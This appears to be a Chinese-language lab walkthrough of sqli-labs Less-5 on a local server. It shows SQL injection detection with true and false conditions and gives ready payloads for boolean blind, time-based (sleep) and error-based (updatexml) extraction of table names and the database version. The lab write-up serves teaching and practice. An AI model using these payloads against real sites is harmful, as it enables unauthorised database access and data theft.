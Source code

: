 

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='1
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/70AC56255F414DBF88FE57B86D995A0Aclipboard.png)



```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and'1'='2
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/67D4A60B5F4944398D652013C3D39362clipboard.png)



1=1和1=2返回的页面不同所以判断存在sql注入，但是返回的内容只有两种，所以可以利用盲注。



1.布尔盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((
select table_name from information_schema.tables where 
table_schema=database()  limit 0,1),1,1))=101--+
```



通过返回的页面不同，所以判断表名第一个字段



2.时间盲注

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and if
((substr((select group_concat(table_name) from information_schema.tables 
limit 0,1),1,1)=101),sleep(5),0)--+
```

当返回响应时间超过5秒时 ，所匹配的字符就为表名的第一个字符。



3.这里还可以使用报错注入。

```javascript
http://127.0.0.1/sql-labs/Less-5/?id=1'and 
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/481B0007D70845F48D7F6A6CCA0F2BACclipboard.png)

